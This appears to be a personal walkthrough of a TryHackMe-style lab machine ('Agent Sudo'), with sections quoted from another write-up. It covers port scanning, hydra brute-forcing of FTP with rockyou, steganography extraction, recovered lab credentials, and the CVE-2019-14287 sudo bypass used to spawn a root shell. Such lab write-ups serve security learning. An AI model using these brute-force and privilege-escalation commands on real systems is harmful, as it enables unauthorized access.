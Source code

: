 <mark style="background: #BBFABBA6;">NMAP</mark>


─(root💀kali)-[~/Desktop/THM]
└─# nmap -sT -sV 10.10.27.190    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-04 18:19 IST
Stats: 0:02:57 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 49.17% done; ETC: 18:25 (0:03:03 remaining)
Stats: 0:05:48 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 66.27% done; ETC: 18:27 (0:02:57 remaining)
Stats: 0:08:32 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 82.67% done; ETC: 18:29 (0:01:47 remaining)
Stats: 0:12:07 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 99.99% done; ETC: 18:31 (0:00:00 remaining)
Nmap scan report for 10.10.27.190
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 744.99 seconds




<mark style="background: #BBFABBA6;">FTP</mark>

Anonymous login not allowed on ftp

<mark style="background: #BBFABBA6;">HTTP</mark>

brute forced using ffuf

ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.10.27.190/FUZZ 



found nothing


okay so here after reading the writeup i understood we had to change the header of packet that is

user-agent:C


to get what we want, here we got a message saying that your passwrod is very weak


using this inspiration to brute force attack on ssh and ftp with username C to see what we get


<mark style="background: #BBFABBA6;">HYDRA</mark>


for ftp

┌──(root💀kali)-[/usr/share/wordlists]
└─# hydra -l C -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt 10.10.27.190 ftp

took about 5-10 min

tried the same for ssh

┌──(root💀kali)-[/usr/share/wordlists]
└─# hydra -l C -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt 10.10.27.190 ssh


but got no hit so changed that wordlist

─(root💀kali)-[/usr/share/wordlists]
└─# hydra -l C -P rockyou.txt 10.10.27.190 ftp


tried with rockyou and waited for 10 min but no luck

didnt find anything after waiting for 10 min on both ssh and ftp so went for the writeup

okay my bad i was using username as c instead of chris 


tried this command and got the password

┌──(root💀kali)-[/usr/share/wordlists]
└─# hydra -l chris -P rockyou.txt 10.10.27.190 ftp


[21][ftp] host: 10.10.27.190   login: chris   password: crystal



Found this text in FTP and there were two images


──(root💀kali)-[~/Desktop/THM]
└─# cat To_agentJ.txt 
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C



As per write i used strings commands to find a hiddent text field in cutie.jpg

```
To_agentR.txt
```


Now followed the writeup 

```
binwalk -e cutie.png
```



this didnt work for me so i used below command 

┌──(root💀kali)-[~/Desktop/THM]
└─# binwalk -e cutie.png --run-as=root


and got an extracted directory and these files in it


┌──(root💀kali)-[~/Desktop/THM/_cutie.png.extracted]
└─# ls
365  365.zlib  8702.zip  To_agentR.txt                                                         


here To_agentR.txt files was empty

as per the writeup and previous evidences and THM question the main data is in zip file but it has a password


using writeup again - below



But we can get the password by using `zip2john` and then use `john` to crack the hash.

![](https://blog.qz.sg/content/images/2021/10/image-23.png)

U may get errors extracting the files using `unzip` if so, use `7z e <zipfile>`


┌──(root💀kali)-[~/Desktop/THM/_cutie.png.extracted]
└─# 7z e 8702.zip         



After unzippin the file we got this

──(root💀kali)-[~/Desktop/THM/_cutie.png.extracted]
└─# cat To_agentR.txt 
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R


<mark style="background: #ADCCFFA6;">Now with no idea went with writeup</mark>


The text in quotes look like what we want but it looks like it is encoded. No worries, [CyberChef](https://gchq.github.io/CyberChef/) to the rescue. You can either search for the decoding method to use manually or leave it to CyberChef, 

CyberChef works like magic and suggests auto decoding using Base64

![](https://blog.qz.sg/content/images/2021/10/image-26.png)

Now we have `Area51` , the only file left seems to be our`jpg` image. 

`steghide` is often used to hide data inside of `jpg` files with a passphrase, maybe that is why one of the questions ask us for the `steg password`.

We can verify if our jpg has something to hide, and indeed it does

![](https://blog.qz.sg/content/images/2021/10/image-29.png)

After extracting it with the password we found.

![](https://blog.qz.sg/content/images/2021/10/image-30.png)

AND BOOM SSH CREDENTIALS!

And the other is an image. We need to find out where is the image from. You can use the command below to download the image from the machine and do a reverse image search on Google so I will leave that to you  
`scp <user@machineip>:Alien_autospy.jpg /localdir/`

## [Task 5] Privilege escalation

We have reached the finale and the most exciting task of all.

We can use the typical commands to check the permissions of our user.

![](https://blog.qz.sg/content/images/2021/10/image-32.png)

Now this is interesting

It looks like our user is not allowed to run `/bin/bash` as `root` since we have a `!root`. However, this looks weird as the first `all` means our user can run `/bin/bash` as any user. This is interesting, perhaps we can find a way to exploit this.

As luck would have it, a google search returns us something we might be able to use to gain root privileges.

![](https://blog.qz.sg/content/images/2021/10/image-33.png)

According to [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287)

> __In Sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules, and can cause incorrect logging, by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a `sudo -u \#$((0xffffffff))` command.__

Version 1.8.28 eh.

![](https://blog.qz.sg/content/images/2021/10/image-34.png)

Looks vulnerable

Our `sudo` version is lower than 1.8.28, great, now we can exploit it.

Using the exploit we found, we can indeed spawn a root shell and get our root flag.

![](https://blog.qz.sg/content/images/2021/10/image-35.png)

That's all folks


following the above steps i logged in as root

james@agent-sudo:~$ sudo -u \#$((0xffffffff)) /bin/bash
root@agent-sudo:~# ls
Alien_autospy.jpg  user_flag.txt
root@agent-sudo:~# 


